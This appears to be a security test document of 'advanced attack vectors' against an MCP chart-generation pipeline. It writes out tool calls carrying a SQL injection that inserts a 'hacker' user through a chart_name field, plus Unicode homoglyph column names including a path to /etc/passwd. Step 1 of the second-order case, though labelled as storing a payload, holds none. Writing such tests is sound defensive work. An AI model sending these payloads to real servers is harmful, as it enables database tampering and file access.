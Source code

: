 # MCP Chart Tools Advanced Attack Vectors

This document contains advanced test cases designed to exploit subtle vulnerabilities and edge cases in the MCP chart generation pipeline. These tests go beyond basic validation to explore complex attack vectors.

## Advanced SQL Injection Techniques

### 1. Second-Order SQL Injection
```json
# Step 1: Store malicious payload in chart name
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [{"name": "product"}]
    },
    "save_chart": true
  }
}

# Step 2: Update chart with injection in the update itself
mcp__mcp-server__update_chart {
  "request": {
    "identifier": "[CHART_ID_FROM_STEP_1]",
    "chart_name": "Updated Chart'; INSERT INTO users VALUES ('hacker', 'password'); --",
    "config": {
      "chart_type": "table",
      "columns": [{"name": "sales", "aggregate": "SUM"}]
    }
  }
}
```

### 2. Unicode Normalization Attacks
```json
# Test Case: Unicode characters that normalize to dangerous strings
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [
        {"name": "saｌes", "aggregate": "SUM"},  # Full-width 'l'
        {"name": "ѕales", "aggregate": "COUNT"},  # Cyrillic 's'
        {"name": "／etc／passwd", "label": "File Access"}  # Full-width slashes
      ]
    }
  }
}
```
